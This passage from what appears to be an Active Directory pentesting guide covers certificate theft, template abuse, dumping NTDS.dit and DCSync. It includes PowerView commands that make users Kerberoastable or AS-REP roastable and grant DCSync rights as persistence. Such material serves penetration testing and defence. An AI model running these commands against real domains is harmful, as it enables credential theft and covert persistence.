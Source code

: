 {% content-ref url="laps.md" %}
[laps.md](laps.md)
{% endcontent-ref %}

### Certificate Theft

Gathering certificates from the compromised machine could be a way to escalate privileges inside the environment:

{% content-ref url="ad-certificates/certificate-theft.md" %}
[certificate-theft.md](ad-certificates/certificate-theft.md)
{% endcontent-ref %}

### Certificate Templates Abuse

If vulnerable templates are configured it's possible to abuse them to escalate privileges:

{% content-ref url="ad-certificates/domain-escalation.md" %}
[domain-escalation.md](ad-certificates/domain-escalation.md)
{% endcontent-ref %}

## Post-exploitation with high privilege account

### Dumping Domain Credentials

Once you get **Domain Admin** or even better **Enterprise Admin** privileges, you can **dump** the **domain database**: _ntds.dit_.

[**More information about DCSync attack can be found here**](dcsync.md).

[**More information about how to steal the NTDS.dit can be found here**](../stealing-credentials/)

### Privesc as Persistence

Some of the techniques discussed before can be used for persistence.\
For example you could:

*   Make users vulnerable to [**Kerberoast**](kerberoast.md)

    ```powershell
    Set-DomainObject -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}r
    ```
*   Make users vulnerable to [**ASREPRoast**](asreproast.md)

    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```
*   Grant [**DCSync**](./#dcsync) privileges to a user

    ```powershell
    Add-DomainObjectAcl -TargetIdentity "DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights DCSync
    ```

### Silver Ticket
